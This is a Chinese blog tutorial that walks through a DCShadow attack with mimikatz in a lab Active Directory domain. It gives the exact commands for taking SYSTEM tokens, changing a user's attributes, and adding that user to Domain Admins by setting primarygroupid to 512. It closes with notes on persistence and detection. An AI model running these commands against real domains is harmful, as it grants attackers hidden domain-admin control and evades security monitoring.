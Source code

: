 ```yaml
---
layout: post
title:  "使用mimikatz执行DCShadow攻击"
date:   2020-12-09
tags: june-1
color: rgb(135,206,235)
cover: '../assets/test.jpg'
subtitle: 'DCShadow创建临时域控'
---
```


# DCShadow
DCShadow是mimikatz中lsadump模块的新功能。它能模拟域控制器的行为（该攻击使用仅由DC使用的RPC的协议）来注入自己想要的数据，从而绕过包括SIEM在内的大多数常见的安全控件。它与DCSync攻击（已经存在于mimikatz的lsadump模块中）具有某些相似之处。
# 测试环境
DC:Windows server 2012
域：tony.local
![1](/assets/DCShadow/1.png)
域主机:Windows server 2016
已加域
![2](/assets/DCShadow/2.png)
## 涉及到的账户
### 域管理组账户
账户名:test
![3](/assets/DCShadow/3.png)
### 域普通账户
账户名:dc
![4](/assets/DCShadow/4.png)
# 实验流程-1
## 创建窗口A
登录域主机Windows server 2016本地账
![5](/assets/DCShadow/5.png)
### 右键管理员打开权限mimikatz
![6](/assets/DCShadow/6.png)
### 启用system权限
依次执行命令，确保当前的进程已system权限打开
{% highlight ruby %}
mimikatz # !+
[+] 'mimidrv' service already registered
[*] 'mimidrv' service already started

mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 584/cmd.exe
 * to 3968/mimikatz.exe

mimikatz # token::whoami
 * Process Token : {0;000003e7} 1 D 1421627     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 * Thread Token  : no token
{% endhighlight %}
### 窗口Ａ
这个窗口暂时命名为:窗口A
![7](/assets/DCShadow/7.png)
## 开始执行DCShadow
### 查看描述
这里更改dc账户的描述，先查看dc的描述，由于我更改过，所以此时显示为
	“hi,hello”
![8](/assets/DCShadow/8.png)
### 执行更改
在刚才启动的窗口A中执行修改命令，来替换“hi,hello”
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:description /value:"an attcker"
{% endhighlight %}
执行完后如下所示，等待通过RPC协议推送至域控
![9](/assets/DCShadow/9.png)
## 创建窗口B
保持这个窗口，不要关闭！并在管理员权限下打开另一个cmd窗口，这个窗口的权限必须是域管理组成员的权限，也就是Domain admin组成员。
### 使用PSEXEC
这里使用psexec来启用system窗口
![10](/assets/DCShadow/10.png)
### 运行mimikatz
在这个窗口下运行mimikatz,查看当前的权限，为域管理权限test
![11](/assets/DCShadow/11.png)
### 执行推送命令
执行推送命令，下图可以看到，执行完推送命令后，刚开始执行修改的窗口显示RPC server stopped，此时就已经修改完成
{% highlight ruby %}
mimikatz # lsadump::dcshadow /push
{% endhighlight %}
![12](/assets/DCShadow/12.png)
## 查看修改结果
修改成功
![13](/assets/DCShadow/13.png)
# 实验流程-2
将dc账户添加至管理员组(Domain admin)
## 查看描述
首先查看dc的信息
{% highlight ruby %}
PSC:\Users\Administrator> ([adsisearcher]"(&(objectCategory=user)(name=dc))").Findall().Properties
{% endhighlight %}
此时dc的组ID为513
![14](/assets/DCShadow/14.png)
可以参考下面的对应组ID，513为域用户，那想要将dc加入至域管理组，就需要将组ID更改为512
{% highlight ruby %}
    512   Domain Admins
    513   Domain Users
    514   Domain Guests
    515   Domain Computers
    516   Domain Controllers
{% endhighlight %}
## 执行更改
在窗口A中执行
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:primarygroupid /value:512
{% endhighlight %}
![15](/assets/DCShadow/15.png)
## 执行推送命令
推送至域控制器
![16](/assets/DCShadow/16.png)
## 查看修改结果
查看dc的所属组
![17](/assets/DCShadow/17.png)
![18](/assets/DCShadow/18.png)
# 可能会出现的实验失败情况
在实验过程中，出现推送服务失败的情况，短暂性的卡在如下图的界面，随后出现Performing Unregistration(取消注册)，这里呢，域控之间的通信是通过RPC服务来进行的，执行推送的过程也是需要RPC服务，域控本身RPC服务端口是开放的，但是测试主机的RPC服务端口未开放。所以，有两种解决方法：
1、	把域主机的防火墙关闭
2、	在域主机防火墙中添加策略，开放RPC服务的端口（具体就不再写了，可以自行百度）
![19](/assets/DCShadow/19.png)
![20](/assets/DCShadow/20.png)
6.	总结
DCShadow目前还是具有危害性的操作行为，该技术可以用于更改和删除复制以及其他关联的元数据，以阻止应急人员分析。攻击者还可以利用此技术执行SID历史记录注入和操纵AD对象（例如帐户，访问控制列表等）以建立持久性后门。
这不属于漏洞，因为是使用合法的已记录使用的协议：
{% highlight ruby %}
    MS-ADTS
    MS-DRSR
{% endhighlight %}
这是一种利用后攻击（也称为控制攻击），因为它需要域管理员（或企业管理员）特权。
安全分析人员可以通过流量以及相关的安全日志来查找痕迹。
